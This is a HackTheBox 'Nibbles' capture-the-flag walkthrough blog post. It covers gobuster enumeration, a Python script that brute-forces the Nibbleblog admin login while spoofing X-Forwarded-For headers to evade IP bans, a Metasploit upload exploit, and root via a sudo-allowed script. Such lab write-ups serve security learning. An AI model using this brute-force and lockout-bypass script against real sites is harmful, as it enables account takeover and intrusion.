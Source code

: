+++
title = "Nibbles - HackTheBox"
date = 2021-03-07T23:54:03+11:00
lastmod = 2021-03-07T23:54:03+11:00
tags = ["HackTheBox", "TJnull's List", "Metasploit", "Nibbleblog", "Python scripting"]
categories = ["Boot2Root"]
imgs = []
cover = "https://www.hackthebox.eu/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png"  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

[Machine Profile](https://www.hackthebox.eu/home/machines/profile/121)

# Reconnaissance

A nmap scan shows us that ports 22 and 80 are open.

On port 80 runs a web server. By accessing it in web browser we can see:

![index](index.png)

So naturally we'll go to `/nibbleblog` and have a look.

![nibbleblog](nibbleblog.png)

Looks like that it's running a blog engine called Nibbleblog.

By running a gobuster enumeration we found some files and directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,xxx,bak,old
[+] Timeout:        10s
===============================================================
2021/03/06 16:47:49 Starting gobuster
===============================================================
/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
```

Check `/README` file, we can find the version of Nibbleblog running on this server is `4.0.3`:

![version](version.png)

After a simple search we can find that Nibbleblog 4.0.3 has a file upload vulnerability, there's even a Metasploit module for it. But this requires a valid login credetial.

So I headed to `/admin.php`, and tried to brute force the password. Not long before I found that this machine has a blacklist mechanism which blocks IP addresses fail to login too many times:

![ip ban](ip-ban.png)

Then I thought that maybe this server is vulnerable for client address confusion with HTTP headers. I found [this manual](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) that points out possible header names for this purpose. Next, I wrote a Python script to try a dictionary of passwords, with a random IP address for each request:

```python
import requests
import socket
import random
import threading
import time

class LockingCounter():
	def __init__(self):
		self.lock = threading.Lock()
		self.count = 0

	def increment(self):
		with self.lock:
			self.count += 1

def try_password(un, pw):
	ip = socket.inet_ntoa(random.randint(0,2**32).to_bytes(4, 'big'))
	headers = {'X-Originating-IP': ip, 'X-Forwarded-For': ip, 'X-Remote-Addr': ip}
	params = {'username': un, 'password': pw}
	r = requests.post('http://10.10.10.75/nibbleblog/admin.php', data=params, headers=headers)
	if 'Incorrect username or password.' not in r.text:
		print(params)
		print('Status code: ', r.status_code, r.text)

def iterate_dict(wordlist, counter):
	for pw in wordlist:
		try_password('admin', pw)
		counter.increment();

thread_count = 1
counter = LockingCounter()

passwords = open('/home/taylor/Documents/rockyou.txt', 'rb').read().split(b'\n')
total = len(passwords)

print('Total passwords: ', total)
print('Thread count: ', thread_count)

for i in range(thread_count):
	args = (passwords[i*total//thread_count: (((i+1)*total//thread_count) if i < thread_count - 1 else None)], counter)
	t = threading.Thread(target=iterate_dict, args=args)
	t.start()
	print('Thread %d started' %i)

while threading.active_count() > 1:
	print(counter.count, '/', total, ' done')
	time.sleep(60)

print(counter.count, '/', total, ' done')
```

At first I wanted to brute force with multiple threads. But later I found that this might break the server, makes the server only return `500` status code. So I finally fell back to a single thread.

After a short while, a password showed up:

![password](password.png)

The username and password are: `admin:nibbles`.

And we can now login to the admin dashboard of Nibbles:

![admin login](admin-login.png)

We can see on the right side many failed logins (made by me) from a lot of (fake) IP addresses ;)

# Intial foothold

Now that we had the valid credentials, we can use the Metasploit module:

![metasploit](metasploit-nibble.png)

And, here, we go:

![foothold](foothold.png)

And we can get the user flag:

![user home](user-home.png)


# Escalation

By running [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we notice something interesting:

![sudo command](sudo-command.png)

As user `nibbler`, we can run `/home/nibbler/personal/stuff/monitor.sh` as root without password with `sudo`. And there's no `personal` directory under `nibbler`'s home directory. This means we can simply create the `personal/stuff/monitor.sh` file under home directory that include any command we need. Easy root :)

![get root](get-root.png)

And we can get root's flag:

![root flag](root-flag.png)


